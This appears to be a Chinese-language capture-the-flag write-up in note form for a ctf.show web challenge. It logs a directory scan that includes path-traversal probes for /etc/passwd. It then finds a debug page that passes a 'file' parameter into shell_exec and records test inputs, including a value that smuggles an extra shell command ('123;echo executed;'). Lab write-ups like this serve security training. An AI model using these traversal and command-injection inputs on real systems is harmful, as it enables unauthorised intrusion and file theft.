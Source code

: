 tags:: RCE

- 参考： [[CTF/WP/CTFSHow/web386]]
- # 施工中
	- 扫描，记录：
		- ```
		  [15:57:44] Starting: 
		  [15:57:47] 400 -  179B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
		  [16:01:54] 400 -  179B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
		  [16:02:30] 200 -   14B  - /debug/
		  [16:02:31] 301 -  169B  - /debug  ->  http://df491a5e-86a2-404d-a105-240aba66a015.challenge.ctf.show/debug/
		  [16:03:17] 301 -  169B  - /install  ->  http://df491a5e-86a2-404d-a105-240aba66a015.challenge.ctf.show/install/
		  [16:03:17] 200 -   59B  - /install/index.php?upgrade/
		  [16:03:17] 200 -   59B  - /install/
		  [16:04:13] 200 -   24B  - /page.php
		  [16:04:55] 200 -   15B  - /robots.txt
		  ```
	- 扫描发现`/debug/index.php`，其拥有GET参数`file`，可以实现^^文件读取^^
		- ~~貌似是任意^^include^^文件~~
			- 是`shell_exec('php -f '.$_GET['file']);`
		- 可能在会读取前检测文件是否存在
		- 测试：
			- `data://text/plain,123`：中文提示找不到文件
			- `data://text/plain,<?=123?>`：输出为空
			- `/proc/self/cwd/../index.php`：正常输出
			- `/proc/self/cwd/../debug/index.php`：提示`file not exist`，估计为执行出错
			- `<?=123?>`：输出为空
			- `"data://text/plain;base64," + enc_dec.base64_encode("<?=123?>")`：
				- 输出`Could not open input file: data://text/plain`
				- ????
			- `data://text/plain,123;echo executed;`：^^输出executed^^!!!!!!!
	- 所有值得注意的页面：
		- `/debug/index.php`
			- 任意文件读取
			- 会在读取前检测文件是否存在
			- 可能为`include$_GET["file"]`
		- `/install/index.php`
			- 如果检测到文件不存在则重置管理员密码
		- `/page.php`
		- `/alsckdfy/check.php`
			- 管理员登陆界面
- # WP
	- 扫描发现`/debug/index.php`，arjun扫描发现GET参数`file`
	- 测试发现`file`参数存在RCE
	- 利用RCE读取`/alsckdfy/check.php`得到flag